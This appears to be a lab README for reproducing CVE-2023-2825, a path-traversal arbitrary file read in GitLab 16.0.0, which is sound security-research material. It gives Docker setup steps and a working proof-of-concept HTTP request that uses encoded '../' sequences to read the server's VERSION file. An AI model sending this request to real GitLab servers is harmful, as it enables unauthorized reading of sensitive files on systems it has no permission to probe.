



# Gitlab Arbitrary File Read Vulnerability(CVE-2023-2825)

## Introduction

An issue has been discovered in GitLab CE/EE affecting only version `16.0.0`. An unauthenticated malicious user can use a path traversal vulnerability to read arbitrary files on the server when an attachment exists in a public project nested within **at least five groups**. This is a critical severity issue

## Setup

Run

```bash
docker-compose up
```

and access to `http://localhost:8080`,

```
user: root
password: you can get password with `sudo docker exec -it <container_id> grep 'Password:' /etc/gitlab/initial_root_password`
```

login and create a group with at least four sub group, create a project on the deepest sub group.



Open a issues with a attachment and you can get the download link of the attachment.



## Poc

Send request

```http
GET /group1/group2/group3/group4/group5/upload/uploads/120072527bd48ba58ba7ed45fd3538c8/%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2fVERSION  HTTP/1.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cache-Control: max-age=0
Host: 127.0.0.1:8080
If-Modified-Since: Fri, 26 May 2023 03:11:02 GMT
Proxy-Connection: keep-alive
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.0.0 Safari/537.36

```

and you will see the VERSION of gitlab



## References

1. https://about.gitlab.com/releases/2023/05/23/critical-security-release-gitlab-16-0-1-released
2. https://rce.moe/2023/05/25/Gitlab-CVE-2023-2825/
